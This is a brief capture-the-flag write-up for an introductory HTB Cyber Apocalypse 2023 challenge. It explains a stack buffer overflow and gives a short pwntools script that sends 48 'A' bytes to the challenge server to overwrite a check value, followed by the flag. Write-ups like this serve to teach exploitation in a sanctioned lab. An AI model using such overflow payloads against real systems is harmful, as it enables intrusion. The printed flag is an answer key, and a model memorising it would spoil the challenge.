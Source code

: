# Getting Started - HTB Cyber Apocalypse 2023

## Description
Get ready for the last guided challenge and your first real exploit. It's time to show your hacking skills.

## Solution

The binary basically tells us it has a buffer overflow and we just need to overflow the 0xdeadbeef value to become anything else.

Sending 48 A's does the trick (but can be done in less).

All the information needed to figure this out is given by the binary itself when running it. No debugging or reversing required, just send a bunch of A's

```py
from pwn import *

io = remote("167.99.86.8",30042)

io.sendline(b'A'*48)

io.interactive()
```

## Flag
`HTB{b0f_s33m5_3z_r1ght?}`
